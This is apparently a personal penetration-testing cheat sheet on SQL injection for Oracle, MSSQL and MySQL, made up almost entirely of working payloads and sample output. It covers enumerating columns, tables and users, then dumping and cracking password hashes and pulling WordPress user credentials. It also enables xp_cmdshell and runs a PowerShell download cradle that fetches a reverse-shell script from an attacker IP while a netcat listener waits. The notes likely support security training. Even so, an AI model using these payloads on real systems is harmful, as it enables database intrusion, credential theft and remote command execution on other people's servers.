 ```yaml
---
description: find db > table name > table columns > user > pass
---
```


# SQL Injections & Enum

{% embed url="https://notes.offsec-journey.com/owasp-top-10-exploitation/untitled#mongo-db" %}
Mongo
{% endembed %}

{% embed url="https://guide.offsecnewbie.com/5-sql" %}
SQLi
{% endembed %}

### Common flow (oracle as eg.)

Check for error messages if any hints on facilitating injection syntax

```
a' or '1'='1
```

For a search field attack, enum the number of returning columns (eg oracle db)

```
a' or 'a'='a' order by 4--'
# error

a' or 'a'='a' order by 2--'
# no error

a' or 'a'='a' order by 3--'
# maximum error-free = returning number of columns
```

Enum data type

<pre><code><strong>a' or 'a'='a' union all select 1,2,3 from dual--'
</strong><strong># wrong data type
</strong><strong>
</strong>a' or 'a'='a' union all select 'A','B',3 from dual--'
# correct data type could return results
</code></pre>

Check current db user: `a' or 'a'='a' union all select user,null,3 from dual--'`

List all tables: `a' or 'a'='a' union all select table_name,owner,3 from all_tables--'` and find `table_name` of specific `dbuser` owner

Enum column names: `a' or 'a'='a' union all select column_name,table_name,3 from all_tab_columns--'` and find `column_name` of specific `table_name`&#x20;

List interested contents: `a' or 'a'='a' union all select ADMIN_NAME,PASSWORD,3 from WEB_ADMINS--'`

### MSSQL

{% code overflow="wrap" %}
```
a' or 'a'='a' union all select 'a',2 --'

a' or 'a'='a' union all select user,2 --

a' union all select @@version,2 --
Microsoft SQL Server 2012 - 11.0.2100.60 (X64) Feb 10 2012 19:39:15 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.2 (Build 9200: ) (Hypervisor)

a' union all select user,2 --
dbo

a' union all select name,2 from master ..sysdatabases--'
Song name: master - From the year: 2
Song name: tempdb - From the year: 2
Song name: model - From the year: 2
Song name: msdb - From the year: 2
Song name: music - From the year: 2

a' union all select table_name,2 from INFORMATION_SCHEMA.TABLES--'
Song name: albums - From the year: 2
Song name: singles - From the year: 2
Song name: concerts - From the year: 2
Song name: users - From the year: 2
Song name: songs - From the year: 2

a' union all select column_name,2 from information_schema.columns where table_name='users'--'
Song name: id - From the year: 2
Song name: name - From the year: 2
Song name: pass - From the year: 2

a' union all select name,id from users--'
Song name: alice - From the year: 0
Song name: brett - From the year: 1
Song name: peter - From the year: 2
Song name: eric - From the year: 3

a' or 'a'='a' union all select pass,id from users--'
Artist name: 5f4dcc3b5aa765d61d8327deb882cf99 - From the year: 0
Artist name: 34819d7beeabb9260a5c854bc85b3e44 - From the year: 1
Artist name: 7d9264f1c1c042b799ef08da95a782d4 - From the year: 2
Artist name: 123pass123 - From the year: 3

alice:password
brett:mypassword
peter:123pass123
eric:123pass123

a' union all select null,is_srvrolemember('sysadmin')--'
check whether current db user is sysadmin
1

a' UNION all SELECT null,2; EXEC sp_configure 'show advanced options', 1--
a' UNION all SELECT null,2; RECONFIGURE--
a' UNION all SELECT null,2; EXEC sp_configure 'xp_cmdshell', 1--
a' UNION all SELECT null,2; RECONFIGURE--

python -m http.server 80
nc -nlvp 4444

a' UNION all SELECT null,2; EXEC xp_cmdshell 'powershell -c IEX(New-Object Net.WebClient).DownloadString(''http://192.168.119.173/rev.ps1'')'--

or \"\" to escape special char
```
{% endcode %}

### MySQL / Maria

{% code overflow="wrap" %}
```

"1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"

"1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"

"1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"

"1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"

"1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"
```
{% endcode %}
